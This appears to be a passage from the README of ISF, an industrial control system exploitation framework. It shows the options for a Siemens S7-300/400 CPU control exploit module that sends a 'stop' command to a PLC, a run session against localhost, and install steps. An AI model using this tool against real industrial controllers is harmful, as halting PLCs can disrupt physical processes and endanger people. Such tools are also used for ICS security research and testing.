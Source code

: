       Name            Value      Description
      ----            -----      -----------
      TargetIp                   Target IP Address
      TargetPort      102        Target Port
      Slot            3          The number of slot
      Command         stop       The control command of cpu



## set 


    isf Exploit (Siemens_300_400_CPU_Control) > set TargetIp 127.0.0.1
    [+] Set TargetIp => 127.0.0.1

## run/execute

Execute the module:

    isf Exploit (Siemens_300_400_CPU_Control) > run

    [!] Preparing to Execute Siemens_300_400_CPU_Control

    Module: Siemens_300_400_CPU_Control
    ===================================

      Name            Value
      ----            -----
      TargetIp        127.0.0.1
      TargetPort      102
      Slot            3
      Command         stop

    [?] Execute Plugin? [Yes] :


# 五、POC

[docs/USAGE.md](./docs/USAGE.md) 


# 六、Installation

## Requirements

* gnureadline (OSX only)
* pywin32 (Windows only)



## Installation on OSX

	git clone https://github.com/w3h/isf
	cd isf
	sudo easy_install pip
	sudo pip install -r requirements.txt
	./isf.py
